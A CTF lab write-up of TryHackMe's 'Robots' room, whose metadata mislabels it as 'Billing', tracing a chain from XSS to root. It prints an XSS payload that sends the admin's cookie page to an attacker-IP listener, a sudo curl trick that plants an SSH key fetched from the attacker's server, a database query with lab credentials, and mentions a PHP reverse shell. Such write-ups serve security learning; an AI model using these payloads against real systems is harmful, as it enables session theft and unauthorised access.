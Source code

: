 ```yaml
---
title: TryHackMe Billing Write-Up Walk Through
date: 2025-03-17 08:00:00 +0200
categories: [TryHackMe, CTF, TryHackMe Write Up]
tags: [tryhackme,ctf, robots, ctf, apache2,SSRF, curl]
description: "Escalating from Web Shell to Root on TryHackMe Robots room"
comments: false
media_subpath: /assets/img/
image:
  path: TryHackMe-Robots.png
  alt: TryHackMe Robots
---
```


## Exploiting XSS to Root: A Technical Dive into TryHackMe's Robots.thm

TryHackMe's "Robots" is a rollercoaster of exploitation, blending web vulnerabilities with system-level privilege escalation. In this technical dive, I'll walk through how I went from an XSS flaw in a login form to full `root` access, leveraging `curl` and `apache2` along the way. Buckle up—here,s the path, with just enough detail to whet your appetite for the full video walkthrough.

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**

### Initial Foothold: XSS in Username Field

The journey begins with the login page (`http://robots.thm/login.php`). A quick test revealed the username field reflected input unsanitized. Injecting a simple XSS payload:

```html
<script>fetch('http://robots.thm/harm/to/self/server_info.php').then(r=>r.text()).then(t=>fetch('http://10.10.74.83:8000/catch',{method:'POST',body:t}))</script>
```

The idea here is when admin login we use above XSS payload to send us the content of the file `server_info.php` which contain the admin cookie

…dumped the admin session cookie to my listener (nc -lvnp 8000). The cookie granted access to admin portal with new endpoint admin.php, which has a PHP local file inclusion (LFI) vuln via the url parameter. Exploiting it by uploading php reverse shell, you can generate one here https://www.revshells.com/

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**


### Pivoting to rgiskard: A Database Twist

With shell access, I queried the MySQL database (mysql:host=db;dbname=web) using creds from config.php, a one line php code that can query users table:

```console
php -r '$pdo=new PDO("mysql:host=db;dbname=web;charset=utf8mb4","robots","q4qCz1OflKvKwK4S",[PDO::ATTR_ERRMODE=>PDO::ERRMODE_EXCEPTION,PDO::ATTR_DEFAULT_FETCH_MODE=>PDO::FETCH_ASSOC]);$r=$pdo->query("SELECT * FROM users");while($row=$r->fetch()){print_r($row);}'
```

From the code of the app (login.php and register.php) you can notice password is double md5 hash, you need to write script to decode the hash and use it (md5(password)) to ssh as the new  user.

As rgiskard, sudo -l exposed a juicy permission:

```console
sudo -l
# User rgiskard may run: (dolivaw) /usr/bin/curl 127.0.0.1/*
```

The wildcard (*) invited mischief. I used curl's `--connect-to` to redirect `127.0.0.1:80` to my server (`10.10.75.200:8000`), planting an SSH key:

```console
sudo -u dolivaw /usr/bin/curl 127.0.0.1/temp_ssh_key.pub --connect-to 127.0.0.1:80:10.10.75.200:8000 -o /home/dolivaw/.ssh/authorized_keys
```

then I generate temp SSH keys to login as the new user:

```console
ssh -i ~/.ssh/dolivaw_key dolivaw@robots.thm*
```

The user flag (`/home/dolivaw/flag.txt`) was mine.

## Root via Apache2: CustomLog Shell

As `dolivaw`, `sudo -l` offered a golden ticket:

```console
sudo -l
# User dolivaw may run: (ALL) NOPASSWD: /usr/sbin/apache2
```
I crafted an Apache config to execute a root shell via CustomLog:

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**

## Takeaways
This room blends XSS, LFI, sudo wildcard abuse, and Apache misconfiguration into a satisfying escalation chain. Want the nitty-gritty—config tweaks, pitfalls, and more? Check out my full walkthrough video:



# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/ZAylF3vSzzQ)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**

<img src="robotsyoutube.png"  alt="TryHackMe Billing" >


